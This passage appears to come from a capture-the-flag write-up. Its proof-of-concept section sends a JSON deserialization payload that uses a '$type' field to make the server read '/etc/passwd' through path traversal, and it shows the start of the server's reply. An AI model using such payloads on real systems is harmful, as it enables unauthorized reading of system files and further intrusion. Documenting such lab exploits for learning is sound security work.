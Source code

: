 ![image*](/img/image-20230531134205700.png)

#### POC

To test this, I'll get rid of the white space to get it on one line, and
send:



    > {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../etc/passwd"}}
    < {
      "UserId": 0,
      "Session": "Unauthorized",
      "Time": "4:21:03",
      "RemoveOrder": {
        "$type": "bagel_server.File, bagel",